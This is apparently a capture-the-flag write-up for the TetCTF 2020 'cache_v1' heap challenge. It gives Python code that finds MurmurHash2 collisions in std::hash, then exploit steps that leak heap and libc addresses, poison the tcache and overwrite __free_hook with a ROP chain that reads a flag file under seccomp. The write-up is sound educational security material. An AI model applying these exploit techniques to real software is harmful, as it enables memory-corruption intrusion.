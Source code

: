 # TetCTF 2020 - cache_v1
## Introduction
- **Given files:** `cache`, `cache.cpp`, `libc-2.31.so`, `ld-2.31.so`.
- **Description:** `Flag stored in /home/cache/flag`
- **Category:** Pwnable (actually `crypwn`, to be exact)
- **Summary:** A `C++` glibc 2.31 heap challenge with `seccomp` rules that is very strict. We are given the source file for this challenge, so reverse engineering it is not a problem. The challenge also requires some math and crypto knowledge.

## TL;DR
1. Analyze the source code -> Found that the `caches` use the `name`'s `std::hash` as the key -> Maybe vulnearable to hash collision.
2. Find two names whose hashes collide -> Create a small cache first, then create a large one that collides with it will cause an out-of-bound read and write.
3. Setup the heap perfectly to exploit.
4. Use OOB read to leak `heap` and `libc`.
5. Use OOB write to poison tcache -> overwrite `__free_hook` into ROP to workaround `seccomp` and read the flag.
   
## Analyzing the source code
This program is a cache management system implemented in C++, it has the following functionalities:
- `Create` a cache with a unique name and (almost) arbitrary positive size (the upper bound is very high).
- `Read` data from a cache at an offset.
- `Write` data to a cache at an offset.
- `Erase` a cache.

The `create` cache option uses a global `unordered_map` called `caches` to keep track of created caches. It is indexed by a key which is the `std::hash<std::string>{}(name)` of the inputted `name`. This is maybe vulnearable to a hash collision attack, because if we can find two names that have the same hash, we can overlap a cache's size with another's:
```cpp
caches[std::hash<std::string>{}(name)].size = size;
```

Also, the cache's chunk to store the content on the heap is only created when we try to `write` into it, not when we `create` it, so we can write to a small cache to create a small chunk, then over write the size with the large one.

Because I couldn't find another vulnerability in the implementation, this is the path that I followed.

Also, this is the output of `seccomp-tools dump` on the binary:
```
line  CODE  JT   JF      K
=================================
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x35 0x07 0x00 0x40000000  if (A >= 0x40000000) goto 0011
0004: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0012
0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
0007: 0x15 0x04 0x00 0x00000003  if (A == close) goto 0012
0008: 0x15 0x03 0x00 0x0000000c  if (A == brk) goto 0012
0009: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0012
0010: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0012
0011: 0x06 0x00 0x00 0x00000000  return KILL
0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

## Finding hash collision (crypto part)
I don't know much about math and cryptography, so I started googling to see which hashing algorithm does `C++` standard library use. It lead me to [this site](https://sites.google.com/site/murmurhash/), where most variances of `MurmurHash` is implemented. The version that `C++` standard library uses in a 64-bit environment is `MurmurHash2Unaligned`, which is implemented as `MurmurHash64A` in `MurmurHash2_64.cpp`.

More googling on how to collide this hash lead me to [this post](http://emboss.github.io/blog/2012/12/14/breaking-murmur-hash-flooding-dos-reloaded/), which shows in details how to create collided keys for `MurmurHash2`. The implementation of `MurmurHash2` in the blog post is almost identical to the one in `C++`, except some constants. I asked my team's crypto player `@pcback` to read it and try to re-implement it for me, and he came up with this script:
```python
INV_MAGIC = 0x5f7a0ea7e59b19bd
R = 16
MASK64 = 0xffffffffffffffff
DIFF = b"\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00\x80"
m = (0xc6a4a793 << 32) | 0x5bd1e995
h = (0xc70f6907 ^ (16 * m)) & (2**64 - 1)
r = 47

def unshiftRight(x, shift):
    res = x
    for i in range(64):
        res = x ^ res >> shift
    return res

def invert64(n):
    x = (n * 0x5f7a0ea7e59b19bd) & MASK64
    x = unshiftRight(x, r)
    x = (x * 0x5f7a0ea7e59b19bd) & MASK64
    return int.to_bytes(x, 8, 'little')

a = b'A'*16
b = bytes(x^y for x,y in zip(a,DIFF))

x1, x2 = int.from_bytes(a[:8], 'little'), int.from_bytes(a[8:], 'little')
y1, y2 = int.from_bytes(b[:8], 'little'), int.from_bytes(b[8:], 'little')

print((invert64(y1) + invert64(y2)).hex())
print((invert64(x1) + invert64(x2)).hex())
```
The script provides two strings whose hashes collide (hex-encoded):
```
c2c48614896beac4c2c48614896beac4
c2c4c9faed854236c2c4c9faed854236
```
With that in hands, I could continue with the exploit.

## Setup the heap
With the hash collision in hands, my plan was clear: Create a small cache, then collide it with a larger one to achieve out-of-bound read and write through that cache. The first step is to perfectly construct the heap so that I could read/write all the stuffs I need:
```python
# Create a small cache to collide on later
create(collide1, 0x30) 
write(collide1, 0, 8, "A"*8)

# Create victim caches to poison
create("victim1", 0x100) 
write("victim1", 0, 8, "B"*8)
create("victim2", 0x100) 
write("victim2", 0, 8, "C"*8)

# Create large cache to leak libc
create("leak", 0x2000) 
write("leak", 0, 8, "D"*8)

# Create padding cache to avoid consolidate
create("padd", 0x40) 
write("padd", 0, 8, "E"*8)

# Collide the first cache with a very large one
create(collide2, 0x2000) 
```

With the above setup, I have two small `victim` chunks to poison later, and a large chunk that will go into `unsorted bin` when freed to leak `libc`.

## Leak heap and libc
Simply read a heap pointer that is stored somewhere on the heap to leak `heap`, and free the large chunk to leak `libc`:
```python
# Leak heap
read(collide2, 0x40, 8)
heap = u64(r.recv(8)) - 0x144d0
log.info("heap: {}".format(hex(heap)))

# Erase large cache, leak libc
erase("leak")
read(collide2, 0x380, 8)
l.address = u64(r.recv(8)) - 0x1ebbe0
log.info("libc: {}".format(hex(l.address)))
```

## Tcache poisoning
Freeing the two `victim` chunks and we can easily overwrite their `fd` pointer, classic `tcache poisoning`. With that, I now can overwrite `__free_hook` and also have all the leaked addresses in my hands. I could just use my ROP chain that I explained [here](https://blog.efiens.com/post/heap-seccomp-rop/) to read the flag. Note that the `payload` must be put into a cache's `name`, not `content`, because the `name` is what actually got `free()` first when we call `erase`.
```python
# Erase victims, overwrite victim2's fd to __free_hook
erase("victim1")
erase("victim2")
write(collide2, 0x200, 8, p64(l.symbols["__free_hook"]))

# Build ROP payload
base = heap + 0x124b0             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
... # read the full payload in my other post or my full script
payload += b"/home/cache/flag"

# Create a cache with payload as its name
create(payload, 0x100)
write(payload, 0, 8, "A"*8)

# Overwrite __free_hook with call_gadget
create("free", 0x100)
write("free", 0, 8, p64(call_gadget))

# Execute the chain
erase(payload)
```

The flag is:
```
TetCTF{https://www.youtube.com/watch?v=NvOHijJqups}
```

## Appendix
The MurmurHash2 implementation in `C++` standard library is `MurmurHash2.cpp`.

The script for finding hash collision is `collide.py`.

The full exploit is `a.py`.